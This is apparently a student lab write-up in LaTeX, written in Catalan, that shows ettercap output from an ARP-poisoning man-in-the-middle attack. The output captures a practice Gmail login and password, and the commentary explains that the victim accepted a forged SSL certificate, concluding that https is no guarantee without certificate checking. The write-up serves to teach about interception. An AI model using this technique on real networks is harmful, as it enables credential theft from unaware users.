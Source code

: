 \documentclass[a4paper,11pt]{scrartcl}
\begin{document}
\begin{verbatim}
ettercap NG-0.7.3 copyright 2001-2004 ALoR & NaGA

Listening on eth0... (Ethernet)

  eth0 ->       00:0A:E4:33:D4:58     192.168.1.40     255.255.255.0

Privileges dropped to UID 0 GID 0...

  28 plugins
  39 protocol dissectors
  53 ports monitored
7587 mac vendor fingerprint
1698 tcp OS fingerprint
2183 known services

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

1 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.1.63 00:23:18:B1:D2:92

 GROUP 2 : ANY (all the hosts in the list)
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

HTTP : 209.85.227.104:443 -> USER: practicaopenssl  PASS: h4x0r_pass  
INFO: https://www.google.com/accounts/ServiceLogin?service=mail&passive=true&rm=
false&continue=https://mail.google.com/mail/?ui=html&zy=l&bsv=llya694le36z&
\end{verbatim}

Com podem veure la víctima ha intentat loguejar al seu correu de Gmail. L'usuari és \emph{practicaopenssl}
i la contrasenya \emph{h4x0r\_pass}. Això significa que ha rebut l'advertiment de que el certificat no
era l'autèntic de la pàgina i segurament per resignació, desconeixement i ganes d'entrar al seu
correu ha ignorat l'advertiment acceptant el nou certificat fraudulent.
Aquest procediment funciona per totes les webs amb SSL que s'han provat, entre elles el Facebook, Lastfm...

En resum, emprar \emph{https} no és garantia de res sinó es sap amb seguretat que el certificat emprat
es el correcte.




\end{document}
